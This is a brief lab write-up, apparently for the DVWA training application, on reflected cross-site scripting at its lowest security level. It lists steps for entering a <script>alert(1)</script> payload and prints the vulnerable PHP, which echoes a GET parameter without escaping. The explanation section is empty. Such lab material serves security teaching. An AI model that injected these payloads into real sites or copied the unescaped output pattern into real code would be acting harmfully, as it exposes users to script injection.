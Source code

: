 # Reflected XSS - Low 

--- 

## Attack Steps 

1. Open target page in browser 
    - http://<ip address>/dvwa/vulnerabilities/xss_r/

2. Enter XSS Payload 

    ```html 
    <script>alert(1)</script> # Replace 1 with your message
    ```

3. Refresh screen

    - An alert should pop up with your message

--- 

## Vulnerable Code Analysis 

### File: 
`/var/www/dvwa/vulnerabilities/xss_r/source/low`

#### Key Vulnerability Points:

```php 
    <?php

    if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){

    $isempty = true;

    } else {
        
    echo '<pre>';
    echo 'Hello ' . $_GET['name'];
    echo '</pre>';
    
    }

    ?> 
```
 
### Explanation 